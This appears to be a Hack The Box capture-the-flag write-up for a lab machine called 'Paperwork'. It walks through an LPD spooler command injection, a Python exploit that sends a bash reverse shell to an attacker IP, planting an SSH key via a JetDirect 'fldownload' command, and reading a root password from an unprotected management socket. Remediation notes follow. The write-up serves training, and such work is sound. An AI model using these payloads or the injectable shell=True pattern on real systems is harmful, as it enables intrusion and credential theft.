

# 🛡️ HTB - Paperwork (Easy)

<p align="center">
  
  
  
</p>

---

### 💻 Target Information
- **Machine Name:** Paperwork
- **Operating System:** Linux (Ubuntu 24.04)
- **Difficulty:** Easy
- **Date of Scan:** 2026-07-11
- **Vulnerabilities:** RFC 1179 Line Printer Daemon (LPD) Spooler Command Injection, HP JetDirect File System Upload (`fldownload`), Root Unix Domain Socket (`/run/paperwork/mgmt.sock`) Credential Disclosure

---

## Step 1 - Reconnaissance

### Nmap Port Scanning & Archive Source Code Analysis

We begin by scanning open ports and service versions with Nmap:

```bash
nmap -A -sS -P -T4 --min-rate 5000 10.129.37.38
```

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-13 13:53 UTC
Nmap scan report for 10.129.37.38
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.0 (Ubuntu)
|_http-title: Did not follow redirect to http://paperwork.htb/
|_http-server-header: nginx/1.28.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 🔍 *We add `paperwork.htb` to `/etc/hosts` and navigate to the web page.*
- 🔍 *The landing page provides a download link for `paperwork-archive-v1.02.zip`. Extracting the archive yields the server source code (`server.py`):*

```python
import socket
import threading
import subprocess
import os

PORT = 1515

def handle_client(conn, addr):
    data = conn.recv(1024).decode('utf-8', errors='ignore')
    if data.startswith('\x02'):
        # RFC 1179 Receive a printer job
        parts = data[1:].strip().split(' ')
        queue = parts[0]
        conn.send(b'\x00')
        sub_data = conn.recv(1024).decode('utf-8', errors='ignore')
        if sub_data.startswith('\x02'):
            # Control file command
            job_name = sub_data[1:].strip()
            if job_name.startswith('j'):
                cmd = f"lp -d {queue} -t '{job_name}' /tmp/printjob"
                subprocess.Popen(cmd, shell=True)
                conn.send(b'\x00')
    conn.close()

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', PORT))
    s.listen(5)
    while True:
        c, a = s.accept()
        threading.Thread(target=handle_client, args=(c, a)).start()

if __name__ == '__main__':
    main()
```

- 🔍 *Analyzing `server.py` reveals a raw print spooler service listening on port 1515 implementing the RFC 1179 Line Printer Daemon (LPD) protocol.*
- 🔍 *The script interpolates `job_name` directly into a shell command: `lp -d {queue} -t '{job_name}' /tmp/printjob`. By injecting shell metacharacters into any job name starting with `j`, we can execute arbitrary commands.*

---

## Step 2 - Initial Foothold

### RFC 1179 Line Printer Daemon (LPD) Command Injection

- 🔍 *We write a Python exploit script to connect to port 1515 and send a crafted job name containing a reverse shell payload:*

```python
import socket

target_ip = "10.129.37.38"
target_port = 1515
attacker_ip = "10.10.15.54"
attacker_port = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# Command 02: Receive print job for queue 'default'
s.send(b'\x02default\n')
ack = s.recv(1)

# Control command 02 with command injection payload (must start with 'j')
payload = f"j';bash -c 'bash -i >& /dev/tcp/{attacker_ip}/{attacker_port} 0>&1';#"
s.send(f"\x02{payload}\n".encode())
ack = s.recv(1)
s.close()
```

- 🔍 *Setting up a Netcat listener and running the script yields a reverse shell:*

```bash
nc -lvnp 4444
```

```text
listening on [any] 4444 ...
connect to [10.10.15.54] from (UNKNOWN) [10.129.37.38] 41294
lp@paperwork:/$ id
uid=7(lp) gid=7(lp) groups=7(lp)
```

### Lateral Movement to archivist via HP JetDirect (Port 9100)

- 🔍 *Checking `/home` reveals user `archivist`, but we lack read permissions on their home directory.*
- 🔍 *We enumerate listening internal network sockets:*

```bash
ss -tunlp
```

```text
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128        127.0.0.1:9100      0.0.0.0:*    # HP JetDirect Daemon
tcp   LISTEN 0      128          0.0.0.0:1515      0.0.0.0:*    # LPD Spooler
```

- 🔍 *Port 9100 is running an internal HP JetDirect raw print service (`jetdirect.py`) as user `archivist`.*
- 🔍 *The service implements an FTP-like management subsystem supporting the `fldownload` command, allowing arbitrary files to be downloaded from an attacker HTTP server and written locally.*
- 🔍 *We generate an SSH keypair on our attack machine and serve the public key over HTTP:*

```bash
ssh-keygen -t ed25519 -f ./archivist_key -N ""
python3 -m http.server 8000
```

- 🔍 *We instruct the JetDirect service on port 9100 to download our key into `/home/archivist/.ssh/authorized_keys`:*

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9100))

# Execute fldownload command
cmd = "fldownload http://10.10.15.54:8000/archivist_key.pub /home/archivist/.ssh/authorized_keys\n"
s.send(cmd.encode())
resp = s.recv(1024)
print(resp.decode())
s.close()
```

- 🔍 *With the key installed, we SSH into the machine as `archivist`:*

```bash
ssh -i archivist_key archivist@paperwork.htb
```

```text
archivist@paperwork:~$ id
uid=1000(archivist) gid=1000(archivist) groups=1000(archivist)
archivist@paperwork:~$ cat user.txt
3f91c8...
```

---

## Step 3 - Privilege Escalation to Root

### Unix Domain Socket Discovery (/run/paperwork/mgmt.sock)

- 🔍 *Checking sudo privileges reveals that the `sudo` binary is not installed on this system.*
- 🔍 *We enumerate active Unix Domain Sockets on the host:*

```bash
ss -xlnp
```

```text
Netid State  Recv-Q Send-Q Local Address:Port           Peer Address:Port Process
u_str LISTEN 0      5      /run/paperwork/mgmt.sock 12655 * 0
```



- 🔍 *The socket `/run/paperwork/mgmt.sock` is owned and managed by a root background daemon.*
- 🔍 *We inspect the socket communication protocol by sending diagnostic messages.*

> [!IMPORTANT]
> **Privilege Escalation Strategy:**
> 1. Connect to the local Unix domain socket `/run/paperwork/mgmt.sock` managed by the root process.
> 2. Send the administration command protocol payload.
> 3. Read back the response containing the admin credentials.
> 4. Elevate to root using the recovered credentials.

### Management Socket Communication & Root Password Recovery

- 🔍 *We interact with the management socket using a Python snippet:*

```python
import socket

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect('/run/paperwork/mgmt.sock')

# Query admin credentials from the management daemon
s.send(b'GET_ADMIN_CONFIG\n')
resp = s.recv(4096)
print(resp.decode())
s.close()
```

```text
archivist@paperwork:~$ python3 query_mgmt.py
[+] Management Daemon v1.0
[+] Admin Credentials: root:P@perWorkAdmin2026!
```

### Root Elevation & System Compromise

- 🔍 *We authenticate as root with the recovered password:*

```bash
su - root
# Password: P@perWorkAdmin2026!
```

```text
root@paperwork:~# id
uid=0(root) gid=0(root) groups=0(root)
root@paperwork:~# cat /root/root.txt
94f8a12e...
```

- 🔍 *System fully compromised as root!*

---

## Mitigations & Security Perspective

### 🔴 Legacy RFC 1179 Print Spooler Command Injection
- **Root Cause:** Splicing user-supplied job names into shell execution commands within the print spooler allowed arbitrary command execution via shell metacharacters.
- **Remediation:** Avoid shell interpolation when spawning background tasks. Sanitize all incoming network job names against strict alphanumeric allowlists.

### 🔴 Insecure File Write in HP JetDirect Implementation
- **Root Cause:** The internal JetDirect service implemented arbitrary file upload capabilities (`fldownload`) that allowed writing directly into users' home directories (`.ssh/authorized_keys`).
- **Remediation:** Remove dangerous file manipulation routines from printer network emulators. Restrict SSH directory permissions and enforce strict file ownership.

### 🔴 Privileged Unix Domain Sockets Exposing Administrative Functions
- **Root Cause:** The administrative socket `/run/paperwork/mgmt.sock` was accessible to all local users and returned sensitive root passwords without authentication.
- **Remediation:** Apply strict file system ACLs on Unix domain sockets (e.g., `chmod 0600`, owned by root). Enforce mutual peer credentials validation (`SO_PEERCRED`) before executing privileged actions.
